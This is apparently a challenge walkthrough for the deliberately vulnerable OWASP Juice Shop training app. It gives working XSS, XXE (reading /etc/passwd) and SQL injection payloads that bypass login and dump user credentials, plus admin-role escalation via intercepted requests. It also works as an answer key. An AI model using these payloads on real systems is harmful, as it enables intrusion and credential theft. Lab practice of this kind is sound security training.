






## Task 1: Score Board
Add the `/score-board` to the URL of the website to access page

## Task 2: DOM XSS
Add the `<iframe src="javascript:alert(`xss`)">` code into the search query of the website after `search?q=`

## Task 3: Zero Stars
1. Complete the Captcha challenge and write some comment. Remove the `disabled=true` tag of the submit button and set the `valuenow=0` property on the UI element. Press the submit button to send the request and succeed 0-star review.

2. Before sending the request to place any random review, turn on intercepting in `Burp` such that the request gets stored. Modify the value field to be set to `0` and then forward the request. Hint: with request press `Action >> Send to Repeater` to attempt attacks on the request rating.


## Task 4: Admin Registration
Send a intercepted request to create a new user using `Burp`. Analyze the fields in the response JSON and the field `"role"="admin"` to another user to create it with admin privileges.

## Task 5: Admin Section 

Add the `administration` endpoint to access that page

## Task 6: Deprecated Interface
Change the allowed file types in the Complaint section to add `.xml` and upload any XML file


## Task 7: XXE Data Access
Upload an XML file with a payload inside it:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```
## Task : Login as Admin - SQL Injection
Add `' OR true--` to the email field on the login page

## Task 8: Database Schema - SQL Injection
Server is using the relational database SQLite
`')) UNION SELECT 1,2,3,4,5,6,7,8,SQL FROM SQLITE_SCHEMA--` add the payload to the search field, to reveal DB schema structure
or alternative `qwert ')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master--` as payload



## Task 9: User Credentials
SQL Injection with payload:
`qwert')) UNION SELECT username,password,email,3,4,5,6,7,8 FROM Users--`



## Task 10: Outdated Allowlist
Search for `/redirect?to` in the `main.js` file and access one of the crypto websites using the redirect.
`http://localhost:3000/redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm`

## Task 11: Bjoern's Favourite Pet
Change the password with pet name `Zaya`

## Task 12: Cross-site Imaging
Use the forgotten `?testDecal=...` query parameter combined with a redirect to the kitten page
URL format: `http://localhost:3000/#/deluxe-membership?testDecal=..%2F..%2F..%2F..%2Fredirect%3Fto%3Dhttps:%2F%2Fplacekitten.com%2Fg%2F400%2F500%3Fx%3Dhttps:%2F%2Fgithub.com%2Fbkimminich%2Fjuice-shop`

## Task 13: Login Bjoern

Bjoern's password hash (reversed + Base64 encoded): `bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=`
Bjoern's email: `bjoern.kimminich@gmail.com`

## Task 14: Weird Crypto
The vulnerable crypto libraries are `MD5`, `hashid`, `base64`, `z85` and `base85`
Submit a `Contact Us` form with one of these answers.

## Task 15: Vulnerable Library
The vulnerable libraries are `sanitize-html@1.4.2` and `express-jwt@0.1.3` using `npm-audit` CLI tool.
Submit a `Contact Us` form with one of these answers.